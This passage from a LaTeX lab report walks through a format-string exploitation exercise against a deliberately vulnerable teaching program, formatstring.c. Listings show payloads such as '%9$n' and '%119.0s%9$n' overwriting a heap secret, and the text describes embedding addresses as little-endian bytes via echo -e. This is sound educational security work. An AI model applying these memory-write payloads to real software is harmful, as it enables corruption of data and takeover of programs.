 \begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Setting secret{$[1]$} to 0},
label={lst:l1_pc_o},
language=,
frame=single]
...
secret[1]'s address is 0x 9a6700c (on heap)
Please enter a decimal integer
161902604
Please enter a string
%9$n

The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x0
\end{lstlisting}
\end{minipage}

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Setting secret{$[1]$} to 0x77},
label={lst:l1_pd_o},
language=,
frame=single]
...
secret[1]'s address is 0x 996700c (on heap)
Please enter a decimal integer
160854028
Please enter a string
%119.0s%9$n

The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x77
\end{lstlisting}
\end{minipage}

\subsection{Task 2}
In Task 2, the integer input is removed from \emph{formatstring.c}. This forbids setting the address using the integer input as practiced in Task 1, and left the format string to be the only interaction with the program. While this does not affect the payload used to crash the program, parts (b), (c), and (d) require a new method of getting an address to secret[1].

Since the \emph{user\_input} char array is on the stack, it should be possible to access it via an indexed substitution token. In , we inspect the stack again and find that \emph{user\_input} was the tenth argument ("RIPP" translates to 0x50504952 in hex). After locating the "scratch pad" argument, we convert the address of secret[1] to escaped bytes and embed them in the format string in little-endian order.

 demonstrates the delivery of escaped bytes through \emph{echo -e}. The payload prints out the first byte of the pointed address in ASCII. The result is the same as Task 1: 'U' (=\emph{0x55}); ther bytes are ommitted here since they are all null. This completes part (b). Finally, by using the same principle as the Task 1 part (d), we are able to wrtie an arbitrary value to the address of secret[1], effectively changing its value ().

